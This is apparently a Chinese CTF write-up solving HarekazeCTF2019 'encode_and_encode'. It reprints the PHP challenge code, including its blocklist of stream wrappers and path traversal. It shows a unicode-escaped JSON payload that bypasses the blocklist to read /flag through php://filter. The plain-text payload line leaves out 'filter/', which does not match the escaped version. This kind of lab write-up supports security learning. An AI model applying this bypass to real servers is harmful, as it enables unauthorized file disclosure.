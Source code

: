 ```yaml
---
title: '[HarekazeCTF2019]encode_and_encode'
date: 2024-06-16 19:39:58
tags: 题解
categories: 刷题笔记
---
```


### [HarekazeCTF2019]encode_and_encode

我们进行代码审计

```
<?php
error_reporting(0);

if (isset($_GET['source'])) {
  show_source(__FILE__);
  exit();
}

function is_valid($str) {
  $banword = [
    // no path traversal
    '\.\.',
    // no stream wrapper
    '(php|file|glob|data|tp|zip|zlib|phar):',
    // no data exfiltration
    'flag'
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

代码要求我们输入json格式的数据，然后进行过滤，将结果传入file_get_contents进行读取

我们来看is_vaild方法，它将一大堆伪协议进行了过滤

我们知道json_decode会将`\uxxx`进行转义，这样就可以绕过is_valid检测

<!--more-->

payload

```
php://convert.base64-encode/resource=/flag
```

我们将payload用unicode进行编码

![image-20240616203241607](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406162032736.png)

```
\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067
```

我们得到最终payload

```
{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}
```

![image-20240616203326697](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406162033752.png)

得到base64字符串，我们进行解码，得到flag
